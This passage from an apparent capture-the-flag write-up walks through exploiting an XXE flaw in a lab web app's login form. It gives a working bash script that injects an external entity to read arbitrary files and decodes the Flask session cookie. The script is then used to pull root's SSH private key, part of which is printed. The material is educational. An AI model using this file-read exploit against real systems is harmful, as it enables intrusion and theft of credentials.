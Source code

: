 That is a solid looking XXE payload that tries to read `root.txt`. Now I need to put this into my browser and visit the page. I suspect the flag will be in the “Welcome, [here]”. It worked:

![image-20210517171106925](https://0xdfimages.gitlab.io/img/image-20210517171106925.png)

#### Script Improvements

I want to automate this a bit more, so I’ll add to the script to pull out the returned XXE value. I’ll also adjust the arguments now that I have the XXE down to just take a filepath:

```

#!/bin/bash

cookie=$(curl -s -v -X POST 'http://127.0.0.1:8888/login' --data-urlencode "username=&test;" --data-urlencode "version=1.0.0 -->
                                                                                   
<!DOCTYPE root [<!ENTITY test SYSTEM '"$1"'>]><!--" -x http://127.0.0.1:8080 2>&1 |
    grep Set-Cookie | 
    cut -d'=' -f2 |
    cut -d';' -f1)
>&2 echo "[+] Got cookie: $cookie"
>&2 flask_session_cookie_manager3.py decode -c $cookie | 
    cut -d"'" -f2 | 
    jq -r '.lxml." b"' | 
    base64 -d | 
    base64 -d

>&2 echo
curl -s -x http://127.0.0.1:8080 -b "session=$cookie" http://127.0.0.1:8888/site |
    pup '#welcome text{}' | 
    sed 's/Welcome, //g'

```

This will use `pup` to get the text from the welcome tag, and `sed` to remove the welcome text. It also prints messages to stderr so that I could redirect stdout to a file to get just the file locally.

### SSH

There’s an SSH key in `/root/.ssh`:

```

oxdf@parrot$ bash read-file.sh /root/.ssh/id_rsa
[+] Got cookie: .eJxtjrtugzAYRl-lYu5gSLJEykKwSZza1MYX8AZyJBJ-CC1IuSnvXjp06_jpO0c6zwBuHQTrZ_BWB-tAY048vinRUiPt1JsutEfL7vXOnSpNliodYq_DRBSSmUR-iGhYVISSTEsru5vUwLdHu79nKqayZ8vcGKtCR2piCo32VwtNxjCkCgbDDE0N4XHdXh95704sJJFKV9mxI0lWxJU8w6p8UFJDPLLtJAQySM383Kc5nkSOh6g8c3lAfBDWU4Hw0rY-ZQR-_3mTPtc8dggSoZrW4tVYRiisUlqYfDrUQMfywSUP4yRT5MzArcouTD0Z_vOb2e-s8blPScG3E5c7H5WmyRxAoXvZmIf4FhH88YwBvTjsydz35RfuXCuIHBboU2w2wes9GC6nfhqDNXr9AEzMfps.YKLoCA.TTzUd0uj4a9H1eDGdwMkMSd2ibI
b'{"lxml":{" b":"UENFdExTQkJVRWtnVm1WeWMybHZiaUF4TGpBdU1DQXRMVDRLQ2p3aFJFOURWRmxRUlNCeWIyOTBJRnM4SVVWT1ZFbFVXU0IwWlhOMElGTlpVMVJGVFNBbkwzSnZiM1F2TG5OemFDOXBaRjl5YzJFblBsMCtQQ0V0TFNBdExUNEtQSEp2YjNRK0NpQWdJQ0E4WkdGMFlUNEtJQ0FnSUNBZ0lDQThkWE5sY201aGJXVStKblJsYzNRN1BDOTFjMlZ5Ym1GdFpUNEtJQ0FnSUNBZ0lDQThhWE5mWVdSdGFXNCtNRHd2YVhOZllXUnRhVzQrQ2lBZ0lDQThMMlJoZEdFK0Nqd3ZjbTl2ZEQ0PQ=="},"points":0}'
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAl/dn2XpJQuIw49CVNdAgdeO5WZ47tZDYZ+7tXD8Q5tfqmyxq
gsgQskHffuzjq8v/q4aBfm6lQSn47G8foq0gQ1DvuZkWFAATvTjliXuE7gLcItPt
iFtbg7RQV/xaTwAmdRfRLb7x63TG6mZDRkvFvGfihWqAnkuJNqoVJclgIXLuwUvk
4d3/Vo/MdEUb02ha7Rw9oHSYKR4pIgv4mDwxGGL+fwo6hFNCZ+YK96wMlJc3vo5Z
EgkdKXy3RnLKvtxjpIlfmAZGu0T+RX1GlmoPDqoDWRbWU+wdbES35vqxH0uM5WUh
vPt5ZDGiKID4Tft57udHxPiSD6YBhLT5ooHfFQIDAQABAoIBAFxB9Acg6Vc0kO/N
krhfyUUo4j7ZBHDfJbI7aFinZPBwRtq75VHOeexud2vMDxAeQfJ1Lyp9q8/a1mdb
...[snip]...

```

